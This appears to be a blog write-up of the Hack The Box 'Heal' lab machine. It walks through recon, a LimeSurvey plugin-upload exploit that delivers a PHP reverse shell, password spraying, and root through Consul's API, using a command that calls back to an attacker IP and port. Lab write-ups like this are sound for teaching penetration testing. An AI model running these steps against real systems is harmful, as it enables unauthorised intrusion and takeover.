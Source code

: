 ```yaml
---
title: Heal - HTB
date: 2025-04-26 14:00:00 +0200
categories: [Hack The Box, Linux]
tags: [Linux , priv-escalation , rooted , heal]
toc: true
comments: true
image: ./assets/img/attachments/heal-1.png
imageNameKey: heal
---
```

Hey folks, Its me again with a new writeup, this is 3/1000 the journey is bit long but we are up
# Recon
**First thing, as usual, is to perform scanning.**  
I did a quick scan first (since a full scan consumes more time).  
We will work with what we find from the quick scan.
```bash
 nmap 10.10.11.46 -F -Pn -T5
```
![w](/assets/img/attachments/heal-2.png)

I couldn't open the webpage because the IP address wasn't resolved. 
```bash
─$ nslookup 10.10.11.46                            
** server can't find 46.11.10.10.in-addr.arpa: NXDOMAIN

```
 So i run nmap scan on port 80
 ```bash
 $ nmap 10.10.11.46 -sC -sV -p80          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-26 13:28 EDT
Nmap scan report for 10.10.11.46
Host is up (0.43s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://heal.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.22 seconds

```
From here I got the domain name http://heal.htb/, lets add it to /etc/hosts

![w](/assets/img/attachments/heal-3.png)

This is how the webpage looked. I tried to register but got an error saying "something went wrong," so I performed content discovery to find hidden directories.
```bash
ffuf -u http://heal.htb/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -recursion-depth 2

dirb http://heal.htb

```
Both attempts returned nothing, and the website responded with a 503 error. I went back to the main page and tried to register again but still couldn’t. At this point, I fired up Burp Suite to start analyzing the requests I was sending — maybe I could spot an injection point.

![w](/assets/img/attachments/heal-4.png)

I think that's why i couldn't register or login with default credentials, or even test for SQLi.
After adding this subdomain to /etc/hosts. I signed up.
# Initial Access
I tried command injection at input fields, but didnt work, BUT survey button directed us to this subdomain:

![w](/assets/img/attachments/heal-7.png)

which is LimeSurvey service, I couldn't get the exact version of the used service. but from the printed message we knew the administrator username **ralph**.

![w](/assets/img/attachments/heal-15.png)
Found exploit, but i don't have password for any account, and default credentials didn't work. Nothing else to do here.
Going back to burp requests:

![w](/assets/img/attachments/heal-8.png)
![w](/assets/img/attachments/heal-9.png)

Couldn't find interesting files, But at api.heal.htb found out page was written with ruby
![w](/assets/img/attachments/heal-10.png)

![w](/assets/img/attachments/heal-11.png)

Lets check those:

![w](/assets/img/attachments/heal-12.png)

Here we found ralph hashed password

![w](/assets/img/attachments/heal-13.png)
 
 Got the password, didn't work for ssh but worked for lime survey, Going back to the found exploit
 ![w](/assets/img/attachments/heal-16.png)
```bash
zip access.zip exploit.py config.xml php-rev.php 
```
![w](/assets/img/attachments/heal-17.png)

![w](/assets/img/attachments/heal-18.png)

Setting listener, then open http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php 
![w](/assets/img/attachments/heal-19.png)
![w](/assets/img/attachments/heal-23.png)
![w](/assets/img/attachments/heal-22.png)
i used this command to find config directory
```bash
find / -type d -name "config" 2>/dev/null

```
In config.php

![w](/assets/img/attachments/heal-24.png)
Did password spraying, and it worked with ron

![w](/assets/img/attachments/heal-25.png)
![w](/assets/img/attachments/heal-26.png)
# Privilege Escalation
After running linpeas 
![w](/assets/img/attachments/heal-27.png)
port 3000 and 3001 are running the same webpage 
![w](/assets/img/attachments/heal-28.png)

port 8300 didn't accept our connection while 8500 did.

![w](/assets/img/attachments/heal-29.png)

did curl to see what's version is running
```bash
curl http://127.0.0.1:8500/ui/
```
![w](/assets/img/attachments/heal-30.png)
![w](/assets/img/attachments/heal-31.png)

There is exploit for this version.

![w](/assets/img/attachments/heal-34.png)

Means no need for token parameter in this exploit

```bash
python3 exploit.py 127.0.0.1 8500 10.10.16.53 4444 ""
```
![w](/assets/img/attachments/heal-32.png)

![w](/assets/img/attachments/heal-33.png)
And Rooted!
In conclusion, exploiting Consul's unprotected API on port 8500 allowed root access through a malicious service registration, emphasizing the necessity of strict ACL enforcement and vigilant system monitoring to thwart privilege escalation.
Catch you later!
